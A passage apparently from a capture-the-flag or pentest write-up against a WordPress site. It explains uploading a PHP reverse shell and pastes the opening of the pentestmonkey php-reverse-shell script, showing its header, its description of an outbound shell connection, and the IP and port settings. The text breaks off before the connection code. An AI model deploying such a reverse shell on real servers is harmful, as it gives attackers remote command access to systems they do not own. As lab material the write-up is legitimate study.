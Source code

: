 ## Exploit

As we already know, wordpress is built with PHP, that is a back-end programming language, meaning that handles the server side of things, so we need to find a way to upload a exploit that can give us a reverse shell, and there's a github repo with a php exploit here: https://github.com/pentestmonkey/php-reverse-shell

This is the exploit we are going to use:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
```
